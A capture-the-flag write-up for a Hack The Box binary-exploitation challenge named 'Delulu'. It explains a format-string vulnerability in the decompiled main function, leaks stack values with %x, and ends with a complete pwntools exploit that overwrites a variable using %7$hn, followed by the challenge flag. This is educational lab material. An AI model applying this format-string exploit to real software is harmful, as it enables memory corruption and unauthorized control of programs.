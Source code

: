 # Delulu

HALT! Recognition protocol initiated. Please present your face for scanning.

## Writeup

This is the main function of the binary:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  long target;
  long *local_40;
  undefined8 buffer;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  target = 0x1337babe;
  local_40 = &target;
  buffer = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&buffer,31);
  printf("\n[!] Checking.. ");
  printf((char *)&buffer);
  if (target == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

There is a format string on **buffer**.

We can try to print stack variable in order to detect where is the pointer of the variable that we want to change:

```
>> %x.%x.%x.%x.%x.%x.%x

[!] Checking.. e3b6280.0.6314887.10.7fffffff.1337babe.e3b83a0
```

So the target variable contain the value **0x1337babe** and his address by reading the code will be the successive value **0xe3b83a0**.

To check it, just send **%7$s**, because is at the 7th position on the stack and we want to retreive his content:

```
>> %7$s

[!] Checking.. 7
```

The value is **7**, that is the ascii rapresentation of **0x1337babe**

```
>> %7$x.%x.%x.%x.%x.%x.%x.%x 

[!] Checking.. fea970a0.fea94f80.0.8fd14887.10.7fffffff.1337babe.fea970a0
```

We can write in this address using **%c** and pointing into the target variable with **%7$n**.

To write **0x1337beef** value, we can add the integer rappresentation of this address times a char, like this:

```python
payload = f"%{0x1337beef}c%7$n"
```

But if we use this payload the exploit will take some time, so we can send half of chars using the format string **%7$hn**:

```python
payload = f"%{0xbeef}c%7$hn"
```

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 83.136.249.159 --port 44420 delulu
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'delulu')
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
if args['LOCAL']:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False) # Can be found via $ ldd exe
else:
    libc = ELF('glibc/libc.so.6', checksec=False)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '83.136.249.159'
port = int(args.PORT or 44420)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'

io = start()

address = 0xbeef

payload = f"%{address}c%7$hn"

io.sendlineafter(b'>>', payload)

io.interactive()
```

This is the flag:

```
HTB{m45t3r_0f_d3c3pt10n}
```